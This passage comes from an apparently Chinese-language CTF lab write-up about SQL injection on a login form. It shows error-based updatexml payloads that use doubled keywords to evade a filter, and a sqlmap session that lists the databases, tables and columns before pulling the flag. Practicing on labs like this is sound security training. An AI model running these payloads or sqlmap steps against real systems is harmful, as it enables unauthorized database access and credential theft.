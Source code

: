 继续查询列名：
\begin{lstlisting}
admin' or updatexml(1,concat(0x7e,(selselectect group_concat(column_name) from information_schema.columns where table_name='fl4g')),1)#
\end{lstlisting}
得到列名为flag，继续查询：
\begin{lstlisting}
admin' or updatexml(1,concat(0x7e,(selselectect group_concat(flag) from fl4g)),1)#
\end{lstlisting}
获取到flag:
\begin{lstlisting}
~n1book{login_sqli_is_nice}
\end{lstlisting}

PS:最后用同样的方法获得了admin的密码，但是结果是一串长字符串，并不能登陆进去。

\subsubsection{sqlmap注入}
手动注入需要记的东西太多了，先用burp截获请求包，保存到post.txt，然后对name进行注入：
\begin{lstlisting}
python sqlmap.py -r ./post.txt -p name --dbs
\end{lstlisting}
最后需要进行一些选项，最后进行了时间盲注猜数据库名，这个步骤很慢。然后猜解出数据库:
\begin{lstlisting}
available databases [4]:
    [*] information_schema
    [*] mysql
    [*] note
    [*] performance_schema
\end{lstlisting}

看不出flag在哪里，那先看一下当前是哪个数据库:
\begin{lstlisting}
python sqlmap.py -r ./post.txt -p name --current-db
\end{lstlisting}
得到当前数据库是note，那再看note里面有什么表：
\begin{lstlisting}
python sqlmap.py -r ./post.txt -p name --tables -D "note"
#结果:
[11:19:10] [INFO] fetching number of tables for database 'note'
[11:19:10] [INFO] resumed: 2
[11:19:10] [INFO] resumed: fl4g
[11:19:10] [INFO] resumed: users
\end{lstlisting}
继续猜fl4g的列名:
\begin{lstlisting}
python sqlmap.py -r ./post.txt -p name --columns -T "fl4g" -D "note"
#结果:
Database: note
Table: fl4g
[1 column]
+--------+-------------+
| Column | Type        |
+--------+-------------+
| flag   | varchar(40) |
+--------+-------------+
\end{lstlisting}

